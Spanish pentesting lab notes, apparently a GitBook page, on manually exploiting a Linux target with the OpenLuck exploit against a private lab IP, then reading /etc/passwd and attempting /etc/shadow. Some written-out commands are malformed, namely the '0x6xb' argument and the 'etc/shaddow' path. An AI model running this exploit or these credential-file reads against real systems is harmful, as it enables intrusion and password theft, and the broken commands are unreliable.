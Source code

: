 # 4 - Manual Explotation

{% embed url="https://github.com/heltonWernik/OpenLuck" %}

![](../../../.gitbook/assets/imagen%20%28366%29.png)

Abajo de eso te dice que usar contra cada objetivo de linux por ejemplo.

![](../../../.gitbook/assets/imagen%20%28360%29.png)

La ennumeration juega un monton aqui.

```text
root@kali: // ./open 0x6xb 192.168.57.134 -c 40
```

![](../../../.gitbook/assets/imagen%20%28373%29.png)

Tenemos acceso:

```text
cat /etc/passwd
```

![](../../../.gitbook/assets/imagen%20%28364%29.png)

Scroleando al final vemos los usuarios custom y no los que vienen

```text
cat etc/shaddow
```

![](../../../.gitbook/assets/imagen%20%28362%29.png)

